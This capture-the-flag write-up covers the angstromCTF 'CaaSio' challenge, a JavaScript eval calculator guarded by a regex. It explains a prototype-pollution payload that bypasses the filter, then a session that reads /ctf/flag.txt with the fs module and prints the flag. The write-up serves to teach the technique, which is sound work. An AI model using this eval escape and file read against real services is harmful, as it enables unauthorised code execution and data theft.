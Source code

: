 # CaaSio
## Misc, 220 pts.

#### Description
Clam's creative calculator causes coders' chronic craziness. Find his calculator-as-a-service over tcp at nc misc.2020.chall.actf.co 20201 and the flag at /ctf/flag.txt. Remember, the "b" in regex stands for "bugless." Source.

Author: aplet123

#### Hint
The calculator is merely a prototype.

### Writeup
This is a calculator service that makes use of javascript's eval.<br>
That is already a big red flag, however our input is filtered heavily by a regex:

`/(?:Math(?:(?:\.\w+)|\b))|[()+\-*/&|^%<>=,?:]|(?:\d+\.?\d*(?:e\d+)?)/g`

This regex is not applied if user.trusted equals true. So our goal is setting that boolean to true, this will enable us to make full use of eval(), which we will use to read the flag file. How do we do it?<br>
We can send at most 3 queries. We would need 2 queries to read the file, so we're limited to one query below 200 characters.<br>


#### Modifying Math
Math is the only object we have access to. It is frozen, meaning we can't modify its attributes. We also can't modify its attributes' attributes: Object.freeze() is shallow, yes, but the regex prevents us from doing it anyway.<br>
`Math.attribute.x' gets filtered to `Math.attribute`.

#### Prototypes
The hint given to us is very important: it mentions prototypes. Prototypes are a feature of Javascript, they are like a static father object which other objects inherit from.<br> 
Now, notice something: `user.trusted` is never set. It is undefined. We could define `user.trusted` in the prototype and there would be no shadowing by user's attributes. Math shares the same prototype as user, so we can do it from there, since Math is the only object we have access to.

#### Anonymous Functions
The regex is very restricting, but we have enough characters to create and *call* an anonymous javascript function. This is the solution.

`((Math,)=>(Math.trusted=1))(Math.__proto__)`

Math is the only name we can use for the parameter. We call it with `Math.__proto__`, so what happens is this: `Math.__proto__.trusted=1`. Since user shares the same prototype and has no trusted attribute, user.trusted will be the same object as `user.__proto__.trusted` and `Math.__proto__.trusted`.<br>
We can now read the flag with the fs module.

```
> ((Math,)=>(Math.trusted=1))(Math.__proto__)
1
> var fs = require('fs');
undefined
> fs.readFileSync('/ctf/flag.txt', 'ascii');
actf{pr0t0typ3s_4re_4_bl3ss1ng_4nd_4_curs3}
```

### Flag
`actf{pr0t0typ3s_4re_4_bl3ss1ng_4nd_4_curs3}`
